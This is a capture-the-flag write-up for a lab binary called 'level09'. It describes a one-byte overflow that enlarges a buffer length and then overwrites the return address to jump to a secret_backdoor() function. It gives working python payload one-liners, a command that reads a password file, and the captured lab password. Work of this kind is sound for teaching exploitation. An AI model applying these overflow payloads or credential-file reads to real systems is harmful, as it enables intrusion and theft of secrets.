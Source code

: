 # Buffer overflow write of size 1

see source.c

## Analysis

At first sight, we didn't see anything strange. So we tested program on gdb with different input size, looking at the stack and saw that we had written more than 40 bytes, so we could rewrite buffer len.
Then we said " Ahahah"  we could write so much more than 140 bytes with strncpy by replacing buffer len !!
Which character could we use to rewrite more ? 0xff ! We then locate eip of handle_msg and rewrite it to target `secret_backdoor()`

Then GG ! c:

## Exploit

```
(python -c "print('A' * 40 + '\xff')"; python -c "print('B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

```
(python -c "print('A' * 40 + '\xff')"; python -c "print('B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; echo "cat /home/users/end/.pass") | ./level09
```

